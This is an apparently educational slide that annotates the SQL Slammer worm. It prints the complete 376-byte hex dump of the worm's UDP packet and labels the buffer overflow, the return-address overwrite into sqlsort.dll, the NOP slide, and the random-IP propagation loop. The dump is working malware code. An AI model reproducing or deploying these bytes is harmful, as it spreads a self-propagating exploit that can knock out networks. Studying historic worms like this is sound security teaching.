

Slammer’s code is 376 bytes!
This byte signals the SQL Server to store the contents of the packet in the buffer

0000: 4500 0194 b6db 0000 6d11 2e2d 89e5 0a9c E...¶Û..m..-.å..
0010: cb08 07c7 1052 059a 0180 bda8 0401 0101 Ë..Ç.R....½¨....
0020: 0101 0101 0101 0101 0101 0101 0101 0101 ................
0030: 0101 0101 0101 0101 0101 0101 0101 0101 ................
0040: 0101 0101 0101 0101 0101 0101 0101 0101 ................
0050: 0101 0101 0101 0101 0101 0101 0101 0101 ................
0060: 0101 0101 0101 0101 0101 0101 0101 0101 ................
0070: 0101 0101 0101 0101 0101 0101 01dc c9b0 .............ÜÉ°
0080: 42eb 0e01 0101 0101 0101 70ae 4201 70ae Bë........p®B.p®
0090: 4290 9090 9090 9090 9068 dcc9 b042 b801 B........hÜÉ°B¸.
00a0: 0101 0131 c9b1 1850 e2fd 3501 0101 0550 ...1É±.Pâý5....P
00b0: 89e5 5168 2e64 6c6c 6865 6c33 3268 6b65 .åQh.dllhel32hke
00c0: 726e 5168 6f75 6e74 6869 636b 4368 4765 rnQhounthickChGe
00d0: 7454 66b9 6c6c 5168 3332 2e64 6877 7332 tTf¹llQh32.dhws2
00e0: 5f66 b965 7451 6873 6f63 6b66 b974 6f51 _f¹etQhsockf¹toQ
00f0: 6873 656e 64be 1810 ae42 8d45 d450 ff16 hsend¾..®B.EÔP..
0100: 508d 45e0 508d 45f0 50ff 1650 be10 10ae P.EàP.EðP..P¾..®
0110: 428b 1e8b 033d 558b ec51 7405 be1c 10ae B....=U.ìQt.¾..®
0120: 42ff 16ff d031 c951 5150 81f1 0301 049b B...Ð1ÉQQP.ñ....
0130: 81f1 0101 0101 518d 45cc 508b 45c0 50ff .ñ....Q.EÌP.EÀP.
0140: 166a 116a 026a 02ff d050 8d45 c450 8b45 .j.j.j..ÐP.EÄP.E
0150: c050 ff16 89c6 09db 81f3 3c61 d9ff 8b45 ÀP...Æ.Û..óa...E
0160: b48d 0c40 8d14 88c1 e204 01c2 c1e2 0829 ´..@...Áâ..ÂÁâ.)
0170: c28d 0490 01d8 8945 b46a 108d 45b0 5031 Â....Ø.E´j..E°P1
0180: c951 6681 f178 0151 8d45 0350 8b45 ac50 ÉQf.ñx.Q.E.P.E¬P
0190: ffd6 ebca                               .ÖëÊ

UDP packet header
This is the first instruction to get executed.  It jumps control to here.

The 0x01 characters overflow the buffer and spill into the stack right up to the return address

This value overwrites the return address and points it to a location in sqlsort.dll which effectively calls a jump to %esp

Restore payload, set up socket structure, and get the seed for the random number generator

NOP slide
Main loop of Slammer:  generate new random IP address, push arguments onto stack, call send method, loop around